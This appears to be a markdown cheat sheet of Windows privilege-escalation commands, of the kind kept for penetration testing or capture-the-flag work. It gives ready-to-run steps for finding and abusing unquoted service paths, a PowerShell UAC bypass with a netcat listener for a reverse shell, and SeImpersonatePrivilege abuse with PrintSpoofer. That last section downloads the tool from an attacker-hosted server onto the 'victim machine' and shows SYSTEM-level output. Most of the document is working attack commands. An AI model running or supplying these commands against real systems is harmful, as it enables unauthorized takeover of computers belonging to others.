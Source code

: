 ## Unquoted Service Path

```
# Find Unquoted Service Path
wmic service get name,pathname | findstr /v /i system32 | findstr /v \"

# Query
sc qc unquotedsvc

# View Permissions
icacls "<Location>"

# Write Permssion
accesschk.exe /accepteula -uvqdw "<Location>"

#PowerUp.ps1
powershell import-module .\PowerUp.ps1;Get-ServiceUnquoted
```

## Powershell UAC Bypass

[Powershell UAC Bypass](https://forums.hak5.org/topic/45439-powershell-real-uac-bypass/)

```
powershell -ep bypass .\escalate.ps1

nc -lvp 1234
```

## SeImpersonatePrivilege

```
# Elevating Privileges using PrintSpoofer 

# Download PrintSpoofer.exe
https://github.com/dievus/printspoofer/blob/master/PrintSpoofer.exe

# Share the executable using python http server
python3 -m http.server

# Download the executable in the victim machine
cd C:\Windows\Temp
powershell iwr -Uri http://10.17.6.228:8080/PrintSpoofer.exe -OutFile pf.exe

# Execute
pf.exe -i -c cmd

# Output
C:\Windows\system32>whoami
whoami
nt authority\system
```
